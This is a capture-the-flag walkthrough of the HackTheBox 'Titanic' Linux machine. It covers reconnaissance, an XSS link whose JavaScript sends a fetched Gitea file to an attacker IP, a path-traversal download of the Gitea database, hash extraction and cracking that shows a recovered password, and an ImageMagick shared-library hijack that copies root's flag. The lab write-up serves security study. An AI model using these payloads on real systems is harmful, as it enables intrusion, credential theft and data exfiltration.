## Box Info

| Name                  | Titanic          | 
| :-------------------- | ---------------: |
| Release Date          | 15 Feb, 2025     |
| OS                    | Linux            |
| Rated Difficulty      | Easy             |

```bash
ping -c 3 10.10.11.55

PING 10.10.11.55 (10.10.11.55) 56(84) bytes of data.
64 bytes from 10.10.11.55: icmp_seq=1 ttl=63 time=57.8 ms
64 bytes from 10.10.11.55: icmp_seq=2 ttl=63 time=58.1 ms
64 bytes from 10.10.11.55: icmp_seq=3 ttl=63 time=59.0 ms

--- 10.10.11.55 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 57.766/58.289/58.979/0.508 ms
```

```bash
sudo nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.55 -oG allPorts
```

```bash
sudo] password for kali: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 19:42 EST
Initiating SYN Stealth Scan at 19:42
Scanning 10.10.11.55 [65535 ports]
Discovered open port 22/tcp on 10.10.11.55
Discovered open port 80/tcp on 10.10.11.55
Completed SYN Stealth Scan at 19:43, 13.26s elapsed (65535 total ports)
Nmap scan report for 10.10.11.55
Host is up, received user-set (0.058s latency).
Scanned at 2025-03-05 19:42:54 EST for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.36 seconds
           Raw packets sent: 65951 (2.902MB) | Rcvd: 65549 (2.622MB)

```

```bash
nmap -p 22,80 -sCV 10.10.11.55 -oN targeted
```

```bash
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```ruby
whatweb http://titanic.htb 

http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.10.11.55], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```




```bash
ffuf -c -u "http://titanic.htb" -H "host: FUZZ.titanic.htb" -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fc 301,300,303
```



```bash
dirsearch -u http://dev.titanic.htb
```



version of gitea


Explore the repository of developer we find tickets 



also we have emails and users

```bash
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.15.36:1111/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

But we dont get anything with that so i will inspect again the web and try to catch the request of book your trip

### Path Traversal

Intercept this request


we will get this request and will try to path traversal






we have a one user has bash

```bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

now we will look the database file of gitea,  where we can found on `/home/user/gitea/data/gitea/gitea.db`



developer@titanic.htb
root@titanic.htb

```bash
curl -s --path-as-is "http://titanic.htb/download?ticket=../../../../../../../../home/developer/gitea/data/gitea/gitea.db" -o gitea.db
```

```bash
sqlite3 gitea.db
```

```
.tables
```

```bash
SELECT * FROM users;
```



```r
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

```bash
SELECT lower_name, passwd, salt FROM user;
```

```
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```

we cant directly crack the hash with hashcat, so we gonna use the script gitea2hashcat.py for convert to sha256

```
python3 gitea2hashcat.py
```

```r
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

```bash
hashcat -m 10900 gitea_hash.txt /usr/share/wordlists/rockyou.txt --username 
```



Password:
```
25282528
```





we found a folder scripts where has a script with follow commands:

```
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

use magick -version we look the version has a vulnerability arbitrary code explotation

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

```bash
magick -version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)

```

we make a file on `/opt/app/static/assets/images` and waiting the script run the file for create and move the file root.txt to tmp.



```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/root.txt");
    exit(0);
}
EOF
```



Also we can embedded a reverse shell